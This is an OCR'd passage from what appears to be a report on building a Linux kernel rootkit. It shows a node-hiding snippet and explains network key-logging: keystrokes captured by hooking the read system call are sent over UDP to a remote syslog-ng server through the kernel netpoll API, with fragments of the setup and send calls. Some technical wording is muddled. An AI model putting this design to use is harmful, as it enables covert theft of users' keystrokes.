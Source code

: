 \documentclass[10pt, letterpaper]{scrartcl}
\begin{document}
\begin{verbatim}
rb_erase(&kn->rb, &kn->parent->dir.children);
RB_CLEAR_NODE(&kn->rb);
\end{verbatim}


\subsection{Network Key-logging}
We had the local key-logging already enabled in our root-kit by hooking \texttt{read} system call. 
We just had to send this keys to \texttt{syslog-ng} server, using syslog protocol. 
These packets can be sent using \texttt{UDP} packets using \texttt{netpoll} kernel API. 
The \texttt{netpoll.h} provides the mechanism for sending UDP packets to a remote host. 
Only one constraint in netpoll is that, the destination port has to be a Ethernet port. 

To do this function, we need to first initialize the netpoll structure with IP address, port number etc. 
before using it to send the keys. 
The \texttt{netpoll} structure looks like this, 

\begin{verbatim}
  struct netpoll {
          struct net_device *dev;
          char dev_name[IFNAMSIZ]; // device name has to be ethernet
          const char *name; 
  
          union inet_addr local_ip, remote_ip;	// Ip addresses in network byte order
          bool ipv6; 
          u16 local_port, remote_port; // some unused local port(eg. 6666) and 
				      //remote_port = 514 (for syslog-ng server)
          u8 remote_mac[ETH_ALEN]; // set to 0xff
  
          struct work_struct cleanup_work;
  };
\end{verbatim}

Once the structre is initialized, we call,
\begin{verbatim}
int netpoll_setup(struct netpoll *);
\end{verbatim} 

This function sets up everything needed for sending the keys. Now we need take the input keys, 
add the pid information of the terminal and send the keys using \texttt{netpoll\_send\_UDP} which looks like,

\begin{verbatim}
netpoll_send_UDP(np, sned_buf, send_len); 
\end{verbatim}
\end{document}

